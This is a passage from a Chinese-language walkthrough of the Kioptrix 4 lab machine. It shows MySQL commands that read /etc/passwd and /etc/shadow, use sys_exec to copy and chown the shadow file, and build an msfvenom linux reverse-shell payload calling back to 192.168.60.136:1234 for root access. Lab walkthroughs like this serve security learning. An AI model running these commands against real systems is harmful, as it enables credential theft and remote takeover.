 </div><p><b>select load_file('/etc/passwd');   查看是否能显示用户名，可以</b></p><p><b>select load_file('/etc/shadow')； 查看能否显示密码，不能<br></b></p><p><b>select sys_exec("cat /etc/shadow &gt; /tmp/shadow");  将密码文件复制到其他目录<br></b></p><p><b>select sys_exec("chown john /tmp/shadow");   将复制后的密码文件赋予查看权限<br></b></p><p><b>cat /tmp/shadow;  查看密码<br></b></p><p><b>之后和上一关一样，用msfvenom创建攻击载荷，用nc发送该文件。用mysql运行攻击载荷。成功获取最高权限。</b></p><p><b><a href="https://www.aldeid.com/wiki/Kioptrix4" target="_blank">参考writeup</a><br></b></p><h1>总结：</h1><p>mysql中执行命令的方式为，select sys_exec('需要执行的bash shell命令')</p><p>创建攻击载荷的命令：-p是payload，-f是format。确定攻击载荷的平台类型和形式。elf是linux平台可执行文件，类似与exe。</p><p><b>msfvenom -p linux/x86/shell_reverse_tcp -f elf  </b><b>lhost=192.168.60.136 lport=1234 &gt; /var/www/shell</b></p>
        </div>
      </div>
    </div>
  </body>
</html>
